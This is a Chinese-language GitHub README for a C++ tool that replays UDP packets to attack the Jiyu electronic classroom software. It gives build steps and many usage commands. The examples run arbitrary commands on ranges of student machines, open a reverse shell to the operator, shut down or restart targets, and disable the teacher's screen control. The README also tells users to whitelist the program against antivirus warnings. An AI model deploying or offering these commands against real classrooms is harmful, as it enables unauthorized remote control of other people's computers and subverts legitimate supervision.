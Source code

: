 # Jiyu-UDP-Attack-Cpp
使用 C++ 编写的 UDP 重放攻击脚本，用于极域电子教室。

English document: [README.md](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/README.md)

## 注意
因为调用了某些系统防火墙服务，所以可能会被杀毒软件误报。忽略并添加信任即可。
如果编译运行后出现乱码的情况，请尝试更换编码后编译。`main.cpp` 使用 GB 2312 编码可以正常使用。

## 编译
要求的系统环境：Windows
要求的最低 C++ 版本：C++11

注：所有头文件已经手动添加到 main.cpp 当中。所以你无需将头文件添加到编译环境中，而可以直接复制/下载 main.cpp 文件并直接编译。

编译命令：

### MSVC
```bash
cl main.cpp /std:c++14 /Fe:main.exe
```

### MinGW
```bash
g++ main.cpp -o main.exe -std=c++14 -lws2_32
```

当使用 GCC / MinGW 编译器时注意：  
确保在引用库的搜索目录中包含了 Windows 相关的程序库。  
不要忘记添加编译参数 `-lws2_32`。如果不使用命令行编译，请在 IDE 的编译选项中加入相应参数。

## 使用方法
通过运行程序或调用如下命令启用用户界面：
```bash
main
```

或者使用命令行调用：
```bash
main [-h(--help) |
  [-i(--i(--ip)) <IP>] [-p <Port>] [-m(--msg) <Message> | -c <Command>]
  [-l <Loop Count>] [-t <Loop Time Interval>]
  [-e <Extra Option>] [-n(--ncport) <NC Port>]]
```

参数列表：
| 参数 | 描述 | 默认值 |
| -------- | ----------- | ------- |
| `-h(--help)` | 显示帮助文本。 | |
| `-i(--ip) <IP>` | 指定目标机的 IP。 | |
| `-p <Port>` | 指定监听的端口。 | 4705 |
| `-m(--msg) <Message>` | 指定要发送的信息。 | |
| `-c <Command>` | 在目标机上运行指定命令。 | |
| `-e <Extra Option>` | 加载额外选项。 | |
| `-l <Loop Count>` | 指定命令的循环次数。 | 1 |
| `-t <Loop Time Interval>` | 指定两次循环之间的时间间隔，单位为秒。 | 22 |
| `-n(--ncport) <NC Port>` | 指定 `nc` 命令的监听端口。 | 8888 |

在 `-e` 参数的 `<Extra Option>` 选项中，可用的选项有：
| 选项 | 描述 |
| ------ | ----------- |
| `r` | 重启目标机。 |
| `s` | 关闭目标机。 |
| `g` | 获取当前的 IP 地址和学生端监听的端口。 |
| `nc` | 反弹 Shell。目标机需要能访问互联网。在退出时可使用 `exit` 命令。 |
| `break` | 脱离屏幕控制。需要以管理员身份运行程序。 |
| `continue` | 恢复屏幕控制。 |

在 `-i(--ip)` 参数的 `<IP>` 中，可用的 IP 有：
- 一个独立的 IP。例子： `192.168.1.1`
- 一个 IP 段，以 `/24` 结尾。例子：`1892.168.1.1/24`
- 一个 IP 段，用 `-` 表示。例子： `192.168.1.2-10`  
注意：  
只有 IP 的最后一个数字可以成段。  
这是非法的： `192.168.1-80.1`

### 命令例子
1. 获取当前的 IP 地址和学生端监听的端口

```bash  
main -e g
```

2. 脱离屏幕控制

需要管理员权限，主要为了 MpsSvc。
```bash
main -e break
```

3. 恢复屏幕控制

```bash
main -e continue
```

4. 发送消息

给 IP 为 `192.168.1.1` 的目标机发送消息“Hello!”：
```bash
main --ip 192.168.1.1 --msg "Hello!"
```

如果学生端监听的端口是 **4605**，使用参数 `-p <Port>` 来指定端口号。向 IP 为 `192.168.1.12` 的目标机发送消息“Hello!”：
```bash
main -i 192.168.1.12 -p 4605 -m "Hello!"
```

5. 运行命令

在 IP 为 `192.168.1.12` 到 `192.168.1.137` 的目标机上弹出计算器：
```bash
main -i 192.168.1.12-137 -c calc.exe
```

如果要运行的命令中含有空格，使用引号包裹：
```bash
main -i 192.168.1.1 -c "taskkill /f /im chrome.exe"
```

6. 反弹 Shell

目标机的 IP 应当为**某个IP**，不能批量反弹，且目标机需要能访问互联网。
```bash
main -i 192.168.1.1 -e nc
```

7. 关机重启

关机：
```bash
main 192.168.1.1 -e s
```

重启：
```bash
main 192.168.1.1 -e r
```

8. 循环执行

向 IP 为 `192.168.1.0` 到 `192.168.1.255` 的目标机发送消息“Hello!”，总共 3 次，每两次之间间隔 50 秒：
```bash
main -i 192.168.1.1/24 -m "Hello!" -l 3 -t 50
```

## 头文件指南 & 贡献指南
如果你希望在自己的代码中调用本程序的相关接口，或者在源代码的基础上加以开发，可以参考 `header` 分支下的相关代码。其中所有不同模块的代码被分在不同的文件下，以头文件的形式互相引用。
头文件的文档可以参见：[Jiyu-UDP-Attack-Cpp 头文件文档](https://github.com/pbw-Kevin/Jiyu_udp_attack/blob/header/docs/zh.md)

如果希望对本代码提出贡献，可以提出 Issue / 在 `header` 分支下提出 PR~如果 PR 被合并，会即时对 `main.cpp` 进行更新的！

## 关于
受到了 [ht0Ruial/Jiyu_udp_attack](https://github.com/ht0Ruial/Jiyu_udp_attack) 项目的启发，于是用 C++ 重写了一个。

## 许可证
[MIT 许可证](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/LICENSE)
